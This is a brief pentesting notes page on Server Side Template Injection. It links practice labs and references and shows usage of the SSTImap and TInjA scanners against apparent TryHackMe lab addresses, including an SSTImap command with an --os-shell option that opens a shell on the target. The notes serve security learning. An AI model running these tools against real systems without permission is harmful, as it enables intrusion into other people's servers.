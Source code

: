 ```yaml
---
description: Notes about some basic Server Side Template Injection attack
---
```


# SSTI

Server Side Template Injection (SSTI) is a web exploit which takes advantage of an insecure implementation of a template engine.

### Playground

* [**THM: SSTI**](https://tryhackme.com/r/room/learnssti)
* [**Template Injection Playground**](https://github.com/Hackmanit/template-injection-playground)

### **Identification**

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi0iv7fgV7F-YHL8sJ7iP5oPTMpSGNq5MjD-DUf6s0tVtChHCzTlVGdesajYQKk8OiIuaF2Cc_J34xpeYN6xH4dDZsIQYIF8Iwz7k8uqnrIJhHsKjrErSF-mTE2NpR_dv30YTOhQGCJC4DEQOPKIYmyZsT61AIP2rWQQKwIPZEMzoFmr3Vrg6j9uzC1Zw0/s645/ssti.png" alt=""><figcaption><p>Quick Identification</p></figcaption></figure>

[**Template Injection Table**](https://github.com/Hackmanit/template-injection-table)

### **Tools**

**SSTImap**

```bash
## Install
git clone https://github.com/vladko312/SSTImap
cd SSTImap
python3 -m venv sstimap_env
source sstimap_env/bin/activate

Usage:
python3 sstimap.py --help
python3 sstimap.py --random-user-agent --url http://10.10.236.246:5000/profile/*
python3 sstimap.py --random-user-agent --url http://10.10.236.246:5000/profile/* --engine Jinja2
python3 sstimap.py --random-user-agent --url http://10.10.236.246:5000/profile/* --engine Jinja2 --os-shell
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiMvTINuzGUfEpkZ0S-tc-klF4MTtjcG5RH92D7Eoxt8M3y9U7Pc4L6VZMxmACJB206t6RkbaBWIzd5UGDnFhPMYsdkauvjlUC77thI_7EBlHKbzO1nO-CUw95rTc16b3muYV-VZmAFmwC4bl-vsVOIB0wQcVmK1aCobmUIdWnpre7sjNSMSfHZkkqxQYg/s1353/sstimap.png" alt=""><figcaption><p><strong>SSTImap</strong></p></figcaption></figure>

**TInjA – the Template INJection Analyzer**

* [https://github.com/Hackmanit/TInjA](https://github.com/Hackmanit/TInjA)

```bash
tinja url -u "http://10.10.242.241:5000/vuln?name=a"
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg4zw4BN1ISgV1FWkjIpCGfjMCK-L9EML6OyAtvkFn_MelZnLs7Azt3Af03qh9uNZLKbtQ8SaE7v3aDWtphi3aMZeOFTCtEHK27FBgSk1dTIufqB2rYHg8jiwq-jC1Hd5fw_SX0DtjKo0_Pi_xVIk3FAzsciQkFw1Ff3N4MhCFYFftejMgtKfWira9gZjA/s1259/tinja-tool.png" alt=""><figcaption><p><strong>TInjA – the Template INJection Analyzer</strong></p></figcaption></figure>

### Resources

* [https://hackerone.com/reports/125980](https://hackerone.com/reports/125980)
* [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
